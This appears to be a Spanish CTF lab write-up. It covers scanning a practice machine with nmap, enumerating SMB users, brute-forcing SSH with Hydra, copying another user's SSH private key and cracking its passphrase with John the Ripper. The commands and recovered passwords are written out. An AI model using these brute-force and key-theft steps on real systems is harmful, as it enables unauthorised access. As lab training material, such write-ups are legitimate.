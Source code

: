 

Empezamos con un reconocimiento básico con [[NMAP]]
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 10.10.25.161 -oN ScanPorts.txt`

Descubrimos que están abiertos los puertos `22 SSH`, `80 HTTP`, `139 SAMBA`, `445 SAMBA`, `8080 HTTP`
Utilizamos [[DIRBUSTER]] Para hacer fuzzing de la web y encontramos el directorio `/development/`, que navegando a el encontramos dos archivos `.txt`

Vemos que nos aporta nada interesante así que empezamos a hacer la enumeración de SAMBA con la herramienta [[RPCCLIENT]]
`rpcclient -U "" -N 10.10.25.161`

Al no mostrarnos nada usaremos `enum4linux` para buscar usuarios
Encontramos dos usurario `kay` y `jan` usaremos [[HYDRA]] para hacer fuerza bruta.
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.25.161`

Nos encuentra la contraseña que es `armando`
Accedemos a la maquina via `SSH`
Obtenemos el fichero de  `id_rsa` de jay utilizando scp.
`scp jan@10.10.25.161:/home/kay/.ssh/id_rsa id_rsa.orig`

Y con [[JOHN THE RIPPER]] lo hasheamos para que sea compatible con [[JOHN THE RIPPER]]
`python /usr/share/john/ssh2john.py id_rsa.orig > id_rsa.hash`

Y ahora con esta herramienta lo usaremos para descifrar el hash y obtener la password del id_rsa
de `kay`
`john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`
La clave es `beeswax`

Ahora desde la maquina que ya teníamos con `SSH` conectamos con `SSH` hacia el usuario `kay`
`ssh -i .ssh/id_rsa kay@10.10.25.161`

Y obtendremos la sesión con el usuario `kay` en su directorio `home` encontramos una contraseña que es la de root.


